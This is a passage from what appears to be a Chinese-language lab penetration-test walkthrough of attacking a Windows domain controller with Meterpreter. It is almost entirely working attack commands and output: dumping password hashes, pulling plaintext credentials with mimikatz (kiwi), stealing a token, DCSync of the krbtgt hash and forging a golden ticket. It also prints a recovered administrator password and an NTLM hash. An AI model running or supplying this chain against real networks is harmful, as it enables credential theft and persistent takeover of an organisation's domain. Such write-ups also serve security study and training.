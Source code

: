 抓取dc的密码hash

```shell
meterpreter > run post/windows/gather/smart_hashdump
```

![image-20230310202155644](https://s2.loli.net/2023/03/11/meTjlRwNCOSb432.png)

```
# 加载mimikatz.exe，获取明文密码
meterpreter > load kiwi
meterpreter > creds_all
```

![image-20230310202427840](https://s2.loli.net/2023/03/11/qFCe67SlWJzOhyE.png)

```
# 域控账户密码：
administrator		o-0o-0o-0
```



11、制作黄金票据

进入shell，获取krbtgt的SID

```shell
wmic useraccount where name="krbtgt" get sid
```

![image-20230310202805727](https://s2.loli.net/2023/03/11/MpVqrfTSc63NLZl.png)

```
S-1-5-21-2005268815-658469957-1189185684-502
```

退出shell，获取权限

```
ps
steal_token 2052
```

![image-20230310203007008](https://s2.loli.net/2023/03/11/zibxfnrYMo5gsTI.png)

```
dcsync_ntlm krbtgt
```

![image-20230310203028494](https://s2.loli.net/2023/03/11/mlbnqtK1SDCseA7.png)

```
NTLM Hash : 6f60ace6accbcb76078ccc0312174e98
```

制作黄金票据

```
golden_ticket_create -d hackbox.com -u root -s S-1-5-21-2005268815-658469957-1189185684 -k 6f60ace6accbcb76078ccc0312174e98 -t /tmp/krbtgt.ticket
-k  ntlm-hash
-s  krbtgt的sid
-t  导出票据的目录
 sid后面的502不需要写在命令里
```
